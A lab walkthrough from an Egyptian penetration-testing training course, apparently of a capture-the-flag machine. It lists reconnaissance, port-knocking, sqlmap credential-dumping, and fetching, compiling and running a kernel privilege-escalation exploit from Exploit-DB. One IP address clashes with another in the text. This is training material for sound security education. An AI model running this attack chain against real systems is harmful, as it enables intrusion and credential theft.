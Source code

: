 # DEPI Machine Walkthrough
 
 
 
 This is a report of a penetration testing task we completed during the DEPI Training program. The training, sponsored by the National Telecommunications Regulatory Authority (NTRA) of Egypt, focused on the Vulnerability Analysis/Penetration Testing Track.
 
 
 
 ## Walkthrough
 
 
 
 ### Step 1: Discovering the Target IP
 
 1. Used the **MAC Address** to find the IP address with `netdiscover`.
 
    - **Target IP**: `192.168.207.133`
 
 
 
 ### Step 2: Port Scanning
 
 - Performed an Nmap scan: `nmap -sC -sV -p- <target_ip>`
 
   - Found only SSH port open.
 
 
 
 ### Step 3: Brute-Force Attempts
 
 - Tried logging in with username `smeagol` but without success.
 
 - Attempted brute-forcing the password using **Hydra**, but it failed.
 
 
 
 ### Step 4: Port Knocking
 
 - Identified a hint: "Knock Friend To Enter. Easy as 1,2,3."
 
 - Used Nmap to send port knocking sequences:
 
  ```bash
 
   nmap -Pn --host-timeout 100 --max-retries 0 -p 1 192.168.207.133
 
   nmap -Pn --host-timeout 100 --max-retries 0 -p 2 192.168.207.133
 
   nmap -Pn --host-timeout 100 --max-retries 0 -p 3 192.168.207.133
 
 
 
 ### Step 5: Web Application Enumeration
 
 1. Accessed the service through a browser but found no useful information.
 
 2. Checked the `/robots.txt` file and inspected the page source.
 
 3. Discovered a **Base64-encoded path** in the source code. After decoding it twice, found the path:
 
                 http://10.10.207.133:1337/978345210/index.php
 
 4. Visited the path and found a login page.
 
 
 
 ### Step 6: SQL Injection
 
 1. Used **Burp Suite** to intercept the login request and saved it as `post.txt`.
 
 2. Tested the form for SQL Injection vulnerabilities using **SQLmap**:
 
              sqlmap -r post.txt -p username
 
 3. Then Extracted the smeagol username and password.
 
             sqlmap -r post.txt -p username -D Webapp -T Users --dump
 
 
 
 ### Step 7: SSH Access and Privilege Escalation
 
 1. Logged into the machine via SSH using the credentials obtained.
 
 2. Attempted to access the /root directory but was unauthorized.
 
 3. Gathered OS and kernel information:
 
          uname -a
 
 4. Used searchsploit to find exploits for the kernel version:
 
          searchsploit ubuntu 14.04
 
 5. Selected and downloaded an exploit (39166.c) from Exploit-DB:
 
        wget https://www.exploit-db.com/download/39166
 
 6. Compiled and executed the exploit:
 
        gcc 39166.c -o exploit
 
        chmod +x exploit
 
        ./exploit
 
 7. Successfully gained root privileges and accessed the flag in the /root directory. 

